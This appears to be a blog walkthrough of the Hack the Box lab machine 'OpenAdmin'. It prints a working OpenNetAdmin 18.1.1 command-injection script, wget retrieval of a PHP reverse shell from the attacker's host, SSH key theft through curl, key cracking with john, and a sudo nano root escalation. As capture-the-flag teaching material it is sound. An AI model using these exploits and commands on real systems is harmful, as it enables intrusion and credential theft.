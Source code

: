 +++
author = "Nick"
categories = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
date = 2020-05-02T14:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/01/infocard.png"
slug = "hack-the-box-openadmin"
summary = "Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!"
tags = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
title = "Hack the Box - OpenAdmin"

+++


Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!

As always, we do our initial `nmap` scan: `nmap -sC -sV -oA initial 10.10.10.171`

We get back some basic results:
```
Nmap scan report for 10.10.10.171
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's see what's being hosted on port 80. We  get the defaul Apache install page. A quick peek at the source doesn't show anything unusual. We start up `gobuster` to start enumerating the service.

Command:
`gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We get back two results: `music` and `artwork`. First we'll head over to `music` and take a look. We starte numerating the page manually. Looking at the source, JS libraries and the contact form. While we are doing this we see a link to `../ona`. When we browse to it we get a `OpenNetAdmin` page.

![](/images/2020/01/image-24.png)

As the title of the box implies, we should start looking at this for vulnerabilities. First we'll `seachsploit` for any. If those results seems slim, we'll start looking around the net for further results.

Command:
`searchsploit opennetadmin`

![](/images/2020/01/image-25.png)

We know that we are running version 18.1.1, so these all fit our criteria. Let's load up `Metasploit` and see what works for us. When we search inside `Metasploit` we don't see the module listed. Hmmm, well, let's download it from [exploit DB](https://www.exploit-db.com/exploits/47691) and import it into our `Metasploit Framework'.

To do this we need to copy the exploit from `searchsploit` into our `Metasploit Framework` directory set. Metasploit keeps the modules it uses here (on Kali Linux):

`/usr/share/metasploit-framework/modules`

Inside this path you will see that it's broken down into the module types. In this case, I'm going to copy the exploit into the `/exploits/linux/http/` location.

Command:
`cp $(locate 47772.rb) /root/.msf4/modules/exploits/linux/http/opennetadmin.rb`
then
`updatedb`

You can now relaunch `Metasploit`. Once it has been launched we issue `reload_all`. This will update our modules in all paths specified. You should see the exploit count increase by one.

Now we can `use` the module.

Command:
`use exploit/linux/http/opennetadmin`

We only need to set our `lhost` and `rhost` for this module. Then we `run` it. But nothing happens. Damn it. Re-run it, still nothing. Ok, let's try the shellscript that was shown in the earlier searchsploit results. We modify the script to look as such:

```bash
#!/bin/bash

URL="http://10.10.10.171/ona/login.php"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

![](/images/2020/01/openadmin_shell_cve.gif)

Now that we have the ability to execute remote commands. Let's turn this into a shell. I tried a few things to forward a shell out but the standards didn't work. So I hosted the basic pentest monkey shell and downloaded to the target system. 

Command:
`python -m SimpleHTTPServer 80`

Then on the remote server:
`wget 10.10.14.200/sh3ll.php`

We then navigated to the `sh3ll.php` URL and obtained a reverse shell.

![](/images/2020/01/openadmin_www_shell.gif)

Now that we have a more solid shell. We can enumerate internally a bit more. We host `linpeas` on our machine and download that as well. We go through the results and see some backup files:

![](/images/2020/01/image-26.png)

We send these files back to our attacking machine. Turns out, they're nothing. We keep looking at the items that show in our output. We see the `database_settings.inc.php` file. We look inside and see a password.

![](/images/2020/01/image-27.png)

We try to use `su` to change our user. First up, `Jimmy`. It works! We try to `SSH` as Jimmy as well, that works too. Great, no need for a webshell anymore. Now we start our enumeration process as Jimmy. We see there is something running on port 52846. We can curl it and get a login form. We know from our previous enumeration that there is a site called `internal`. Inside this are some files. `main.php`, `internal.php` and `logout.php`.

We see that the `main.php` code kicks out the content of Joanna's SSH key.

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

So based on this we can `curl` this port and send our data. The hint is given as 'Don't forget you "ninja" password', eluding to the password we already found.

Command:
`curl -X POST -F 'username=jimmy' -F 'password=n1nj4W4rri0R!' http://127.0.0.1:52846/main.php`

We get back Joanna's SSH private key!

![](/images/2020/01/openadmin_curl_ssh.gif)

With the key we now will send it through `ssh2john` and toss the rockyou list at it.

Command:
`ssh2john before_hash > cleaned_hash`

Then we'll send this file to `john` to crack.

Command:
`john cleaned_hash --wordlist=/usr/share/wordlists/rockyou.txt`

![](/images/2020/01/image-28.png)

We get a password of `bloodninjas` back. Now let's try and log in as Joanna.

Command:
`ssh -i id_rsa joanna@10.10.10.171`

We enter the password when we are pompted and we are in!

![](/images/2020/01/image-29.png)

Now that we're in as the 'final' user. We grab our `user.txt` file and start our root based enumeration. The first thing we do is `sudo -l`.

![](/images/2020/01/image-30.png)

We see that leverage `nano` as root. Our first stop when we see this is always [GTFObins](https://gtfobins.github.io/). It seems quite a few people had issues with this. The breakdown of above is as follows:

Joanna can run `/bin/nano` as `sudo` ON the following: `/opt/priv`

![](/images/2020/01/openadmin_root_gtfo.gif" caption="Laggy root shell)

Another box down! This box was particularly unstable. Hopefully something was learned during this machine! If this walkthrough helped you, send some respect my way :) [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



